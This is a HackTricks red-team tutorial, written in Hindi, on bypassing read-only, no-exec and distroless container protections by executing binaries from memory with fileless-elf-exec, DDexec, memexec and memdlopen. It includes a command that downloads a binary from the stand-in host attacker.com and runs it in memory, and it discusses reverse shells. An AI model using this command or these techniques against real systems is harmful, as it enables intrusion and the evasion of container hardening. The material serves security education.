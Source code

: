 # FS सुरक्षा को उलटा: केवल पढ़ने योग्य / कोई-कार्यात्मक / Distroless

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PR जमा करके।

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अहैकेबल को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_चुस्त पोलिश लिखने और बोलने की आवश्यकता है_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - गुप्तचरता और टालने के लिए लिनक्स मेमोरी मेनिपुलेशन का अन्वेषण**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ गुप्त प्रवेश - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## केवल पढ़ने योग्य / कोई-कार्यात्मक स्थिति

लिनक्स मशीनों को **केवल पढ़ने योग्य (ro) फ़ाइल सिस्टम सुरक्षा** के साथ माउंट करना अधिक सामान्य हो रहा है, विशेष रूप से कंटेनर में। इसलिए किसी कंटेनर को ro फ़ाइल सिस्टम के साथ चलाना इतना आसान है जितना कि `securitycontext` में **`readOnlyRootFilesystem: true`** सेट करना है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, यदि फ़ाइल सिस्टम को ro के रूप में माउंट किया गया है, तो **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह झूठ है कि हम डिस्क में कुछ भी लिख नहीं सकते। हालांकि, इस फ़ोल्डर को **कोई-कार्यात्मक सुरक्षा के साथ माउंट किया जाएगा**, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं तो आप उसे **क्रियान्वित नहीं कर सकेंगे**।

{% hint style="warning" %}
लाल टीम के दृष्टिकोण से, यह **जटिल बना देता है कि डाउनलोड और क्रियान्वित करें** बाइनरी जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे गणनक).

{% endhint %}

## सबसे आसान उमार: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को क्रियान्वित कर सकते हैं** जब तक अंतर्वादक मशीन में हो, जैसे एक **शैल स्क्रिप्ट** यदि `sh` मौजूद है या एक **पायथन स्क्रिप्ट** यदि `पायथन` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए जो आपको चलाने की आवश्यकता हो सकती है, इसके लिए केवल इतना ही काफी नहीं है।

## मेमोरी उमार

यदि आप एक बाइनरी को क्रियान्वित करना चाहते हैं लेकिन फ़ाइल सिस्टम उसे अनुमति नहीं दे रहा है, तो उसे **मेमोरी से क्रियान्वित करना** सबसे अच्छा तरीका है, क्योंकि **सुरक्षा उसमें लागू नहीं होती**।

### FD + exec सिसकल उमार

यदि आपके पास मशीन में कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **पायथन**, **पर्ल**, या **रूबी** तो आप मेमोरी से क्रियान्वित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर में स्टोर कर सकते हैं (`create_memfd` सिसकल), जिसे उन सुरक्षा उपायों द्वारा सुरक्षित नहीं किया जाएगा और फिर एक **`exec` सिसकल** को कॉल करके **fd को फ़ाइल के रूप में क्रियान्वित करने** के लिए।

इसके लिए आप आसानी से परियोजना [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह उसे निर्दिष्ट भाषा में स्क्रिप्ट उत्पन्न करेगा जिसमें बाइनरी को **डिकोड और डीकंप्रेस** करने के निर्देश शामिल होंगे और एक `create_memfd` सिसकल को कॉल करके एक **fd** बनाने के लिए बनाए गए एक **बाइनरी संपीड़ित और b64 एन्कोड** के साथ।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं में काम नहीं करता है जैसे PHP या नोड क्योंकि उनके पास किसी भी **स्क्रिप्ट से रॉ सिसकल को कॉल करने का डिफ़ॉल्ट तरीका** नहीं है, इसलिए `create_memfd` को कॉल करने के लिए **मेमोरी fd** बनाना संभावित नहीं है।

इसके अतिरिक्त, `/dev/shm` में एक फ़ाइल के साथ एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आप इसे चलाने की अनुमति नहीं मिलेगी क्योंकि **कोई-कार्यात्मक सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको अपने खुद के प्रक्रिया की **मेमोरी को संशोधित करके** अनुमति देता है।

इसलिए, प्रक्रिया द्वारा क्रियान्वित किए जा रहे एसेम्बली को नियंत्रित करके, आप एक **शैलकोड** लिख सकते हैं और प्रक्रिया को **किसी भी विचित्र कोड** को क्रियान्वित करने के लिए "म्यूटेट" कर सकते हैं।

{% hint style="success" %}
**DDexec / EverythingExec** आपको अपने खुद के **शैलकोड** या **किसी भी बाइनरी** को **मेमोरी** से लोड और **क्रियान्वित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का प्राकृतिक अगला कदम है। यह एक **DDexec शैलकोड डेमनाइज्ड** है, इसलिए हर बार जब आप **एक विभिन्न बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप सिर्फ मेमेक्सेक शैलकोड को DDexec तकनीक के माध्यम से चला सकते हैं और फिर **इस डेमन के साथ संवाद करके नए बाइनरी लोड और चलाने के लिए**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) में **मेमेक्सेक का उपयोग कैसे करें** के एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के एक समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक एक **सरल तरीके से बाइनरी लोड करने** की अनुमति देती है ताकि आप उन्हें बाद में चला सकें। यह यहाँ तक कि विभिन्न आवश्यकताओं वाले बाइनरी भी लोड करने की अनुमति दे सकती है।

## Distroless Bypass

### Distroless क्या है

Distroless containers में केवल **विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यकता होने वाले न्यूनतम घटक** होते हैं, जैसे पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन एक पैकेज प्रबंधक, शैल या सिस्टम उपयोगिताएं जैसे बड़े घटकों को छोड़ देते हैं।

Distroless containers का लक्ष्य है कि वे **अनावश्यक घटकों को हटाकर** कंटेनर की हमले की सतह को कम करें और उन विकल्पों की संख्या को कम करें जो शोषित किया जा सकता है।

### रिवर्स शैल

एक डिस्ट्रोलेस कंटेनर में आपको **शायद ही `sh` या `bash`** मिलेगा जिससे आप एक साधारण शैल प्राप्त कर सकें। आप `ls`, `whoami`, `id` जैसी बाइनरी भी नहीं पाएंगे... जो आप सामान्यत: एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शैल** या **जांच** जैसा कुछ भी करने में सक्षम नहीं होंगे।
{% endhint %}

हालांकि, यदि संक्रमित कंटेनर में उदाहरण के लिए एक फ्लास्क वेब चल रहा है, तो पायथन स्थापित है, और इसलिए आप एक **पायथन रिवर्स शैल** प्राप्त कर सकते हैं। यदि यह नोड चल रहा है, तो आप एक नोड रिवर्स शैल प्राप्त कर सकते हैं, और ज्यादातर **स्क्रिप्टिंग भाषाओं** के साथ भी ऐसा ही होगा।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **भाषा क्षमताओं का उपयोग करके सिस्टम का जांच** कर सकते हैं।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा उपाय नहीं है तो आप अपने रिवर्स शैल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी** लिख सकते हैं और उन्हें **चला** सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा उपाय आम तौर पर मौजूद होंगे, लेकिन आप **पिछले मेमोरी निष्पादन तकनीकों का उपयोग करके उन्हें अनदेखा कर सकते हैं**।
{% endhint %}

आप **कुछ RCE वंलरेबिलिटी का शोधन करने** और [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) में मेमोरी से बाइनरी चलाने के उदाहरण पा सकते हैं।
